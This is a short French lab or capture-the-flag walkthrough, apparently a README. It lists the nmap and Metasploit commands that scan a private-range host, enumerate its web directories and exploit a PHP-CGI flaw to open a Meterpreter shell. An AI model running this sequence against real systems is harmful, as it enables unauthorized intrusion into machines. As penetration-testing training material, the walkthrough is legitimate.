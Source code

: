 
## Les commandes : 

Avec nmap : 

- nmap -sV 192.168.1.185 -p 80

Avec metasploite : 

- msfconsole
- search http_version
- use 0 (auxiliary)
- show options
- set rhosts 192.168.1.185
- run

-> rechecher la liste des dossiers.


- search dir_scanner (auxiliary)
- use 0
- show options
- set rhosts 192.168.1.185
- run


-> on voit un cgi 


- search php_cgi (exploit)
- use 0
- set rhosts 192.168.1.185
- exploit
- meterpreter > shell

-> on est connecté ensuite.